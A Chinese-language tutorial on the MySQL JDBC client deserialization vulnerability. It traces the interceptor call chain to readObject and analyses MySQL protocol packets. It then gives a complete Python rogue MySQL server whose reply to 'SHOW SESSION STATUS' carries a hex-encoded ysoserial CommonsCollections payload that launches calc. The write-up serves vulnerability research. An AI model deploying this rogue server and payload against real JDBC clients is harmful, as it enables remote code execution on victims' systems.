# JDBC反序列化

> 参考文章
>
> http://www.mi1k7ea.com/2021/04/23/MySQL-JDBC%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E/
>
> https://xz.aliyun.com/t/8159
>
> https://www.javasec.org/javase/JDBC
>
> https://www.cnblogs.com/hetianlab/p/17083189.html

### 什么是JDBC?

> `JDBC(Java Database Connectivity)`是Java提供对数据库进行连接、操作的标准API。Java自身并不会去实现对数据库的连接、查询、更新等操作而是通过抽象出数据库操作的API接口(`JDBC`)，不同的数据库提供商必须实现JDBC定义的接口从而也就实现了对数据库的一系列操作。

一般格式：

```
jdbc://driver://host:port/database?配置name1=配置Value1&配置name2=配置Value2
```


### JDBC Connetion


> Java通过`java.sql.DriverManager`来管理所有数据库的驱动注册，所以如果想要建立数据库连接需要先在`java.sql.DriverManager`中注册对应的驱动类，然后调用`getConnection`方法才能连接上数据库。
>
> JDBC定义了一个叫`java.sql.Driver`的接口类负责实现对数据库的连接，所有的数据库驱动包都必须实现这个接口才能够完成数据库的连接操作。`java.sql.DriverManager.getConnection(xx)`其实就是间接的调用了`java.sql.Driver`类的`connect`方法实现数据库连接的。数据库连接成功后会返回一个叫做`java.sql.Connection`的数据库连接对象，一切对数据库的查询操作都将依赖于这个`Connection`对象。


JDBC Connetion demo

```java
String CLASS_NAME = "com.mysql.jdbc.Driver";
String URL = "jdbc:mysql://localhost:3306/mysql"
String USERNAME = "root";
String PASSWORD = "root";

Class.forName(CLASS_NAME);// 注册JDBC驱动类
Connection connection = DriverManager.getConnection(URL, USERNAME, PASSWORD);
```

我们可以看到通过JDBC来连接数据库要通过两个步骤

1. 注册驱动，`Class.forName("数据库驱动的类名")`。
2. 获取连接，`DriverManager.getConnection(xxx)`。

https://www.javasec.org/javase/JDBC/Connection.html#jdbc-connection


### MYSQL_JDBC

> 如果攻击者能够控制JDBC连接设置项，那么就可以通过设置其指向恶意MySQL服务器进行ObjectInputStream.readObject()的反序列化攻击从而RCE。
>
> 具体点说，就是通过JDBC连接MySQL服务端时，会有几个内置的SQL查询语句要执行，其中两个查询的结果集在MySQL客户端被处理时会调用ObjectInputStream.readObject()进行反序列化操作。如果攻击者搭建恶意MySQL服务器来控制这两个查询的结果集，并且攻击者可以控制JDBC连接设置项，那么就能触发MySQL JDBC客户端反序列化漏洞。
>
> 可被利用的两条查询语句：
>
> - SHOW SESSION STATUS
> - SHOW COLLATION

#### 原理分析

pom.xml依赖

```xml
        <dependency>
            <groupId>commons-collections</groupId>
            <artifactId>commons-collections</artifactId>
            <version>3.2.1</version>
        </dependency>
        <!-- https://mvnrepository.com/artifact/mysql/mysql-connector-java -->
        <dependency>
            <groupId>mysql</groupId>
            <artifactId>mysql-connector-java</artifactId>
            <version>8.0.13</version>
        </dependency>
```

这里cc作为触发反序列化的链子

这个反序列化的触发点主要是在这个

com.mysql.cj.jdbc.result.ResultSetImpl类的getObject()方法中，可以看到这里进行了反序列化的操作



那我们接下来就要找调用getObject()的地方

其中我们用这个方法`com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor.populateMapWithSessionStatusValues()`

`ServerStatusDiffInterceptor`是一个拦截器，在JDBC URL中设定属性queryInterceptors为`ServerStatusDiffInterceptor`时，执行查询语句会调用拦截器的preProcess和postProcess方法，进而通过上述调用链最终调用`getObject()`方法。

如下





接着这个preProcess方法又会调用这个populateMapWithSessionStatusValues()



在JDBC连接数据库的过程中，会调用`SHOW SESSION STATUS`去查询，而这个方法又会调用一个resultSetToMap方法

跟进这个方法



这个方法最后又会调用getObject方法

这里还需要关注一个点getObject的columnindex的值



最后在getObject中，只要`autoDeserialize` 为True.就可以进入到readObject中.



那既然链子已经找出来了

那我们可以开始尝试实现

#### 复现

复现思路

> 在JDBC连接MySQL的过程中，执行了`SHOW SESSION STATUS`语句.我们返回的结果需要是一个恶意的对象.那就是说我们需要自己写一个假的MYSQL服务.
> 这里就会有两种写法
>
> 1. 根据MYSQL的协议去写服务器. 2. 抓包，模拟发包过程.
>
> 我这里选择使用第二种方法.(因为比较简单，后面发现还是要看mysql协议)

##### 数据包分析

下载Mysql，新建一个数据库



Mysql demo

```java
package org.example;

import java.sql.Connection;
import java.sql.DriverManager;

public class MySQL_Test {
    public static void main(String[] args) throws Exception{
        String Driver = "com.mysql.cj.jdbc.Driver";

        String DB_URL = "jdbc:mysql://127.0.0.1:3306/security?characterEncoding=utf8&useSSL=false&queryInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor&autoDeserialize=true";
        Class.forName(Driver);
        Connection conn = DriverManager.getConnection(DB_URL,"root","060201");
    }
}
```

运行后查看wireshark截获的本地流量

我们可以筛选一下

```
tcp.port ==3306 && mysql
```

我们需要用 python 脚本伪造的 MySQL 服务端需要伪造的是 `Greeting` 数据包 `Response OK` 、`Response Response OK` 以及 JDBC 执行查询语句 `SHOW SESSION STATUS` 的返回包



> 图中标记的`No`为62的包就是`show session status`，也就是我们一共需要关注前面10个数据包的内容

首先我们开始对第一个数据包进行分析

###### 1.`Greeting` 数据包

首先是一个问候报文



可以看到他的数据内容

这里发送 `greeting` 数据包之后需要发送 `Login` 请求，`Login` 请求里面包含了 user 和 db 以及 password，在这之后才会返回 Response OK 的数据包


Login 的请求包在发送完 `greeting` 包之后会自动发送，所以我们只需要发送一段 `greeting` 数据包，返回一段 Response OK 数据包即可.

###### 2.`Response OK`包

这是一个简单的`Response OK`数据包

我们可以看到这个数据包的内容就是`0700000300000002000000`



我们要发送的其实就是这一段

继续往下，需要编写四个 Request Query 包的 Response 包后，才是 `SHOW SESSION STATUS`


##### 那怎么编写`show session status`呢？

从流量中可以看出来`show session status`属于**request Query** 报文。对于查询数据包的响应包可以分为四种：错误包（ERR Packet）、正确包（OK Packet）、 Protocol::LOCAL_INFILE_Request、结果集（ProtocolText::Resultset）。我们上面看到的**Response OK**数据包就是**OK packet**。
结果集响应包的结构如图所示。

[](https://xzfile.aliyuncs.com/media/upload/picture/20200824105721-87c42a84-e5b5-1.png)
上面的官方图说明了一个结果集响应包的结构。

- 数据段1：说明下面的结果集有多少列
- 数据段2：列的定义
- 数据段3： EOF 包
- 数据段4：行数据。

数据段的结构也是相似的。 长度（3字节） 序号（1字节） 协议数据（不同协议，数据不同）

1. 数据段1就可以写成`01 00 00 01 02` 前三字节表示数据长度为1，sequence id为1，最后一字节02表示有两列（因为尝试写一列无法正常运行）

2. 数据段2列的定义就比较复杂了。拿我写好的数据直接分析吧`1a000002036465660001630163016301630c3f00ffff0000fcffff000000`

   ```
   1a 00 00  //3字节表示长度（这个长度说的是协议的内容长度，不包括序号那一字节）
   02      //序号 因为是第二个数据字段
   03646566  // 这个就是def的意思。
   00   //schema 协议因为不使用就用00
   01 63  //table 因为我们使用列数据，就不需要名字了，下面几个都是任意字符。字符串第一字节是用来说明长度的。
   01 63  //org_table  01表示1字节，63是数据
   0163    //name  
   0163   //org_name
   0c      filler  // length of the following fields 总是0x0c
   3f00   //characterset  字符编码 003f是binary 
   ffff0000  column_length //允许数据最大长度，就是我们行数据的最大长度。ffff
   fc    //column_type 这一列数据类型  fc表示blob  
   9000    //flags  9000用的官方的 poc可以运行。  看fnmsd的要大于128好像。
   00          //decimals
   0000        //filler_2
   ```

3. 我的POC没有写 EOF包，不知道为什么加上就无法复现成功。（希望有人解答）

4. 数据字段4就是POC了。POC其实和上面一样的。计算出长度（3字节）序号（1字节）行数据（行数据第一个字节是数据的长度）

5. POC使用ysoserial 。 `java -jar ysoserial [common7那个] "calc" > a`


poc

```python
# -*- coding:utf-8 -*-
#@Time : 2020/7/27 2:10
#@Author: Tri0mphe7
#@File : server.py
import socket
import binascii
import os

greeting_data="4a0000000a352e372e31390008000000463b452623342c2d00fff7080200ff811500000000000000000000032851553e5c23502c51366a006d7973716c5f6e61746976655f70617373776f726400"
response_ok_data="0700000200000002000000"

def receive_data(conn):
    data = conn.recv(1024)
    print("[*] Receiveing the package : {}".format(data))
    return str(data).lower()

def send_data(conn,data):
    print("[*] Sending the package : {}".format(data))
    conn.send(binascii.a2b_hex(data))

def get_payload_content():
    # //file文件的内容使用ysoserial生成的 使用规则  java -jar ysoserial [common7那个]  "calc" > a 
    file= r'a'
    if os.path.isfile(file):
        with open(file, 'rb') as f:
            payload_content = str(binascii.b2a_hex(f.read()),encoding='utf-8')
        print("open successs")

    else:
        print("open false")
        #calc
        payload_content='aced0005737200116a6176612e7574696c2e48617368536574ba44859596b8b7340300007870770c000000023f40000000000001737200346f72672e6170616368652e636f6d6d6f6e732e636f6c6c656374696f6e732e6b657976616c75652e546965644d6170456e7472798aadd29b39c11fdb0200024c00036b65797400124c6a6176612f6c616e672f4f626a6563743b4c00036d617074000f4c6a6176612f7574696c2f4d61703b7870740003666f6f7372002a6f72672e6170616368652e636f6d6d6f6e732e636f6c6c656374696f6e732e6d61702e4c617a794d61706ee594829e7910940300014c0007666163746f727974002c4c6f72672f6170616368652f636f6d6d6f6e732f636f6c6c656374696f6e732f5472616e73666f726d65723b78707372003a6f72672e6170616368652e636f6d6d6f6e732e636f6c6c656374696f6e732e66756e63746f72732e436861696e65645472616e73666f726d657230c797ec287a97040200015b000d695472616e73666f726d65727374002d5b4c6f72672f6170616368652f636f6d6d6f6e732f636f6c6c656374696f6e732f5472616e73666f726d65723b78707572002d5b4c6f72672e6170616368652e636f6d6d6f6e732e636f6c6c656374696f6e732e5472616e73666f726d65723bbd562af1d83418990200007870000000057372003b6f72672e6170616368652e636f6d6d6f6e732e636f6c6c656374696f6e732e66756e63746f72732e436f6e7374616e745472616e73666f726d6572587690114102b1940200014c000969436f6e7374616e7471007e00037870767200116a6176612e6c616e672e52756e74696d65000000000000000000000078707372003a6f72672e6170616368652e636f6d6d6f6e732e636f6c6c656374696f6e732e66756e63746f72732e496e766f6b65725472616e73666f726d657287e8ff6b7b7cce380200035b000569417267737400135b4c6a6176612f6c616e672f4f626a6563743b4c000b694d6574686f644e616d657400124c6a6176612f6c616e672f537472696e673b5b000b69506172616d54797065737400125b4c6a6176612f6c616e672f436c6173733b7870757200135b4c6a6176612e6c616e672e4f626a6563743b90ce589f1073296c02000078700000000274000a67657452756e74696d65757200125b4c6a6176612e6c616e672e436c6173733bab16d7aecbcd5a990200007870000000007400096765744d6574686f647571007e001b00000002767200106a6176612e6c616e672e537472696e67a0f0a4387a3bb34202000078707671007e001b7371007e00137571007e001800000002707571007e001800000000740006696e766f6b657571007e001b00000002767200106a6176612e6c616e672e4f626a656374000000000000000000000078707671007e00187371007e0013757200135b4c6a6176612e6c616e672e537472696e673badd256e7e91d7b4702000078700000000174000463616c63740004657865637571007e001b0000000171007e00207371007e000f737200116a6176612e6c616e672e496e746567657212e2a0a4f781873802000149000576616c7565787200106a6176612e6c616e672e4e756d62657286ac951d0b94e08b020000787000000001737200116a6176612e7574696c2e486173684d61700507dac1c31660d103000246000a6c6f6164466163746f724900097468726573686f6c6478703f4000000000000077080000001000000000787878'
    return payload_content

# 主要逻辑
def run():

    while 1:
        conn, addr = sk.accept()
        print("Connection come from {}:{}".format(addr[0],addr[1]))

        # 1.先发送第一个 问候报文
        send_data(conn,greeting_data)

        while True:
            # 登录认证过程模拟  1.客户端发送request login报文 2.服务端响应response_ok
            receive_data(conn)
            send_data(conn,response_ok_data)

            #其他过程
            data=receive_data(conn)
            #查询一些配置信息,其中会发送自己的 版本号
            if "session.auto_increment_increment" in data:
                _payload='01000001132e00000203646566000000186175746f5f696e6372656d656e745f696e6372656d656e74000c3f001500000008a0000000002a00000303646566000000146368617261637465725f7365745f636c69656e74000c21000c000000fd00001f00002e00000403646566000000186368617261637465725f7365745f636f6e6e656374696f6e000c21000c000000fd00001f00002b00000503646566000000156368617261637465725f7365745f726573756c7473000c21000c000000fd00001f00002a00000603646566000000146368617261637465725f7365745f736572766572000c210012000000fd00001f0000260000070364656600000010636f6c6c6174696f6e5f736572766572000c210033000000fd00001f000022000008036465660000000c696e69745f636f6e6e656374000c210000000000fd00001f0000290000090364656600000013696e7465726163746976655f74696d656f7574000c3f001500000008a0000000001d00000a03646566000000076c6963656e7365000c210009000000fd00001f00002c00000b03646566000000166c6f7765725f636173655f7461626c655f6e616d6573000c3f001500000008a0000000002800000c03646566000000126d61785f616c6c6f7765645f7061636b6574000c3f001500000008a0000000002700000d03646566000000116e65745f77726974655f74696d656f7574000c3f001500000008a0000000002600000e036465660000001071756572795f63616368655f73697a65000c3f001500000008a0000000002600000f036465660000001071756572795f63616368655f74797065000c210009000000fd00001f00001e000010036465660000000873716c5f6d6f6465000c21009b010000fd00001f000026000011036465660000001073797374656d5f74696d655f7a6f6e65000c21001b000000fd00001f00001f000012036465660000000974696d655f7a6f6e65000c210012000000fd00001f00002b00001303646566000000157472616e73616374696f6e5f69736f6c6174696f6e000c21002d000000fd00001f000022000014036465660000000c776169745f74696d656f7574000c3f001500000008a000000000020100150131047574663804757466380475746638066c6174696e31116c6174696e315f737765646973685f6369000532383830300347504c013107343139343330340236300731303438353736034f4646894f4e4c595f46554c4c5f47524f55505f42592c5354524943545f5452414e535f5441424c45532c4e4f5f5a45524f5f494e5f444154452c4e4f5f5a45524f5f444154452c4552524f525f464f525f4449564953494f4e5f42595f5a45524f2c4e4f5f4155544f5f4352454154455f555345522c4e4f5f454e47494e455f535542535449545554494f4e0cd6d0b9fab1ead7bccab1bce4062b30383a30300f52455045415441424c452d5245414405323838303007000016fe000002000000'
                send_data(conn,_payload)
                data=receive_data(conn)
            elif "show warnings" in data:
                _payload = '01000001031b00000203646566000000054c6576656c000c210015000000fd01001f00001a0000030364656600000004436f6465000c3f000400000003a1000000001d00000403646566000000074d657373616765000c210000060000fd01001f000059000005075761726e696e6704313238374b27404071756572795f63616368655f73697a6527206973206465707265636174656420616e642077696c6c2062652072656d6f76656420696e2061206675747572652072656c656173652e59000006075761726e696e6704313238374b27404071756572795f63616368655f7479706527206973206465707265636174656420616e642077696c6c2062652072656d6f76656420696e2061206675747572652072656c656173652e07000007fe000002000000'
                send_data(conn, _payload)
                data = receive_data(conn)
            if "set names" in data:
                send_data(conn, response_ok_data)
                data = receive_data(conn)
            if "set character_set_results" in data:
                send_data(conn, response_ok_data)
                data = receive_data(conn)
            if "show session status" in data:
                mysql_data = '0100000102'
                mysql_data += '1a000002036465660001630163016301630c3f00ffff0000fc9000000000'
                mysql_data += '1a000003036465660001630163016301630c3f00ffff0000fc9000000000'
                # 为什么我加了EOF Packet 就无法正常运行呢？？
                # //获取payload
                payload_content=get_payload_content()
                # //计算payload长度
                payload_length = str(hex(len(payload_content)//2)).replace('0x', '').zfill(4)
                payload_length_hex = payload_length[2:4] + payload_length[0:2]
                # //计算数据包长度
                data_len = str(hex(len(payload_content)//2 + 4)).replace('0x', '').zfill(6)
                data_len_hex = data_len[4:6] + data_len[2:4] + data_len[0:2]
                mysql_data += data_len_hex + '04' + 'fbfc'+ payload_length_hex
                mysql_data += str(payload_content)
                mysql_data += '07000005fe000022000100'
                send_data(conn, mysql_data)
                data = receive_data(conn)
            if "show warnings" in data:
                payload = '01000001031b00000203646566000000054c6576656c000c210015000000fd01001f00001a0000030364656600000004436f6465000c3f000400000003a1000000001d00000403646566000000074d657373616765000c210000060000fd01001f00006d000005044e6f74650431313035625175657279202753484f572053455353494f4e20535441545553272072657772697474656e20746f202773656c6563742069642c6f626a2066726f6d2063657368692e6f626a73272062792061207175657279207265777269746520706c7567696e07000006fe000002000000'
                send_data(conn, payload)
            break


if __name__ == '__main__':
    HOST ='0.0.0.0'
    PORT = 3309

    sk = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    #当socket关闭后，本地端用于该socket的端口号立刻就可以被重用.为了实验的时候不用等待很长时间
    sk.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
    sk.bind((HOST, PORT))
    sk.listen(1)

    print("start fake mysql server listening on {}:{}".format(HOST,PORT))

    run()
```

cc7作为触发反序列化的链子

用yso生成一个


